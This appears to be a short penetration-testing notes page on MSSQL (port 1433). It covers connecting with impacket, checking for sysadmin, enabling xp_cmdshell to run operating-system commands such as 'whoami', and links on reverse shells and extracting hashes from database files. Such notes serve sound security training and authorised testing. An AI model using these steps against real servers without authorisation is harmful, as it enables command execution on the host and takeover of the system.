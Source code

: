 # 1433 - MSSQL

## Connect to MSSQL from Kali

{% content-ref url="../../tools/tools/mssqlclient.py-impacket.md" %}
[mssqlclient.py-impacket.md](../../tools/tools/mssqlclient.py-impacket.md)
{% endcontent-ref %}

## MSSQL for PrivEsc

```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
-----------
          1

EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;

EXEC sp_configure 'xp_cmdshell', 1
reconfigure;

xp_cmdshell "whoami"
```

{% hint style="info" %}
Compare the following syntax (note the `;)`

* `EXEC xp_cmdshell "whoami";`
* `xp_cmdshell "whoami"`
{% endhint %}

{% content-ref url="../../collections/reverse-shell/powershell-1.md" %}
[powershell-1.md](../../collections/reverse-shell/powershell-1.md)
{% endcontent-ref %}

## MSSQL System Databases

Documentation: [https://docs.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sqlallproducts-allversions](https://docs.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sqlallproducts-allversions)

To restore backups (.bak) or read database files (.mdf and .ldf) offline:&#x20;

* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)
* [https://rastating.github.io/from-lfi-to-sql-database-backup/](https://rastating.github.io/from-lfi-to-sql-database-backup/)
